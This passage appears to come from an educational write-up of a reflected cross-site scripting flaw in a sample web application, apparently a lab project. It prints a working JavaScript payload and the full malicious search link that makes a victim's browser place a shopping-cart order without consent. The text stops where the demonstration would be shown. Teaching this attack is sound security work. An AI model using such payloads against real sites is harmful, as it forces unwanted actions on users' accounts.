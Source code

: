 ```Old Password```, ```New Password``` and it's confirmation.
password changes. On the other hand, it could also do other vulnerability-independent unsolicited operations, like ordering all shopping cart items.

#### **Demonstration**

Here's an example of an attack against a specific individual named Iris Santos. 
We'll attack her by giving her a malicious link with a script that requests all shopping cart items to be delivered to her:

Here is what the script looks like:
```HTML
<script>
data = {
	first_name : "Iris",
	last_name : "Santos",
	email : "dog@gmail.com",
	mobile : 333222111,
	address : "sample", 
};

const XHR = new XMLHttpRequest();
const FD = new FormData();

const urlParams = new URLSearchParams(window.location.search);

const usrID = 2;

for (const [name, value] of Object.entries(data)) {
    FD.append(name, value);
}

let host = location.host;

XHR.open("POST", "http://"+ host +"/shoppingcart?user=" + usrID);

XHR.send(FD);

</script>
```

This is what the malicious hyperlink looks like:

```
http://localhost:5000/search?q="<script> data = { first_name : "Iris", last_name : "Santos", email : "dog@gmail.com", mobile : 333222111, address : "sample", }; const XHR = new XMLHttpRequest(); const FD = new FormData(); const urlParams = new URLSearchParams(window.location.search); const usrID = 2; for (const [name, value] of Object.entries(data)) { FD.append(name, value); } let host = location.host; XHR.open("POST", "http://"  %2B  host %2B   "/shoppingcart?user="  %2B  usrID); XHR.send(FD); </script>"
```

Here's a demonstration of its effects from Iris Santos' perspective:
